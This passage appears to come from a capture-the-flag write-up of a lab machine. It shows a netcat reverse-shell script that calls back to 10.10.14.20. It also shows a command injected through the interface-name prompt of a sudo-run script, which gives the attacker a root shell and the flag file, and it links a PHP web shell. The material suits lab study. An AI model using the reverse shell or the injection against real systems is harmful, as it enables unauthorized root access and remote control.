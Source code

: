 ```
[guly@networked ~]$ cat shell
cat shell
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.20 9003 >/tmp/f

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
eth0 /bin/sh -c /home/guly/shell
eth0 /bin/sh -c /home/guly/shell
interface PROXY_METHOD:


wrong input, try again
interface PROXY_METHOD:
eth0 /bin/sh /home/guly/shell
eth0 /bin/sh /home/guly/shell
<snip>

## on attacker side
$ nc -lvnp 9003
listening on [any] 9003 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.146] 59110
sh-4.2# whoami
whoami
root
sh-4.2# ls /root
ls /root
root.txt
sh-4.2# cat /root/root.txt
cat /root/root.txt
0c8...
```

#### Resources
- magic bytes: https://en.wikipedia.org/wiki/List_of_file_signatures
- web shell used: https://github.com/artyuum/simple-php-web-shell
#### Lesson Learned
